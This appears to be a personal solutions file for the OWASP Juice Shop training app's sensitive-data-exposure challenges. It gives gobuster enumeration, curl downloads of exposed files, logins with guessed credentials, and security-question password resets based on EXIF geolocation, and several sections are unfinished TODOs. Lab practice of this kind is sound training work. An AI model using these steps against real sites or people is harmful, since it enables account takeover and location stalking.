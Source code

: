 # Sensitive Data Exposure

## Access Log

Wordlists
* https://github.com/danielmiessler/SecLists
* https://github.com/v0re/dirb/tree/master/wordlists
* https://gitlab.com/kalilinux/packages/dirbuster

Gain access to any access log file of the server

```bash
# status code is rigged (always 200 instead of 404): ignore 200 with fixed size and add delay to avoid crashing the server
gobuster dir -u http://juiceshop:3000/ \
  -w /hck/share/wordlists/SecLists/Discovery/Web-Content/common.txt \
  --exclude-length 3748 -t 1 --delay 50ms
# output
# /.well-known/security.txt (Status: 200) [Size: 403]
# /api                  (Status: 500) [Size: 3017]
# /assets               (Status: 301) [Size: 179] [--> /assets/]
# /ftp                  (Status: 200) [Size: 11072]
# /profile              (Status: 500) [Size: 1159]
# /promotion            (Status: 200) [Size: 6586]
# /redirect             (Status: 500) [Size: 3119]
# /rest                 (Status: 500) [Size: 3019]
# /robots.txt           (Status: 200) [Size: 28]
# /security.txt         (Status: 200) [Size: 403]
# /snippets             (Status: 200) [Size: 792]
# /video                (Status: 200) [Size: 10075518]

# challenge description suggests "support" team from "/ftp/" path
curl -O juiceshop:3000/ftp/incident-support.kdbx

gobuster fuzz -u http://juiceshop:3000/support/FUZZ \
  -w /hck/share/wordlists/SecLists/Discovery/Web-Content/common.txt \
  --exclude-length 3748 -t 1 --delay 50ms

curl "http://juiceshop:3000/support/logs/access.log.$(date '+%Y-%m-%d')"
```

## Confidential Document

Access a confidential document

```bash
# http://juiceshop:3000/ftp/order_<ORDER_ID>.pdf
curl -O http://juiceshop:3000/ftp/acquisitions.md
```

## Email Leak

Perform an unwanted information disclosure by accessing data cross-domain

```bash
TODO
```

## Exposed Metrics

* [Prometheus](https://prometheus.io/docs/introduction/overview)

Find the endpoint that serves usage data to be scraped by a popular monitoring system

```bash
http http://juiceshop:3000/metrics
```

## Forgotten Developer Backup

Access a developer's forgotten backup file

```bash
TODO
```

## Forgotten Sales Backup

Access a salesman's forgotten backup file

```bash
TODO
```

## GDPR Data Theft

Steal someone else's personal data without using Injection

```bash
TODO
```

## Leaked Access Logs

Dumpster dive the Internet for a leaked password and log in to the original user account it belongs to

```bash
TODO
```

## Leaked Unsafe Product

Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous

```bash
TODO
```

## Login Amy

Log in with Amy's original user credentials

```bash
# husband: Kif Kroker
# https://futurama.fandom.com/wiki/Amy_Wong-Kroker

# The challenge description contains a few sentences which give away some information how Amy decided to strengthen her password.
# (This could take 93.83 billion trillion trillion centuries to brute force, but luckily she did not read the "One Important Final Note")
# https://www.grc.com/haystack.htm

http http://juiceshop:3000/rest/user/login email="amy@juice-sh.op" password="K1f....................."
```

## Login MC SafeSearch

Log in with MC SafeSearch's original user credentials

```bash
# https://www.youtube.com/watch?v=v59CX2DiX0Y
http http://juiceshop:3000/rest/user/login email="mc.safesearch@juice-sh.op" password="Mr. N00dles"
```

## Meta Geo Stalking

Determine the answer to John's security question

```bash
curl -sS -O http://juiceshop:3000/assets/public/images/uploads/favorite-hiking-place.png

# GPS Position
exiftool favorite-hiking-place.png

# convert https://gps-coordinates.org/coordinate-converter.php
# DMS (degrees, minutes, seconds): 36 deg 57' 31.38" N, 84 deg 20' 53.58" W
# DD (decimal degrees): 36.95871666666667, -84.34821666666666
# address: 1–251 Two Bridge Rd, London, KY 40744, United States

# security question: What's your favorite place to go hiking?
curl -sS http://juiceshop:3000/rest/user/reset-password \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"john@juice-sh.op","answer":"Daniel Boone National Forest","new":"12345","repeat":"12345"}'
```

## Misplaced Signature File

Access a misplaced SIEM signature file.
```bash
TODO
```

## NFT Takeover

Take over the wallet containing our official Soul Bound Token (NFT).

```bash
TODO missing
```

## Reset Uvogin's Password

Reset Uvogin's password via the Forgot Password mechanism

```bash
TODO
```

## Retrieve Blueprint

Deprive the shop of earnings by downloading the blueprint for one of its products

```bash
TODO
```

## Visual Geo Stalking

Determine the answer to Emma's security question

```bash
curl -sSO http://juiceshop:3000/assets/public/images/uploads/IMG_4253.jpg

# try google upload https://images.google.com

# security question: Company you first work for as an adult?
curl -sS http://juiceshop:3000/rest/user/reset-password \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"emma@juice-sh.op","answer":"ITsec","new":"12345","repeat":"12345"}'
```
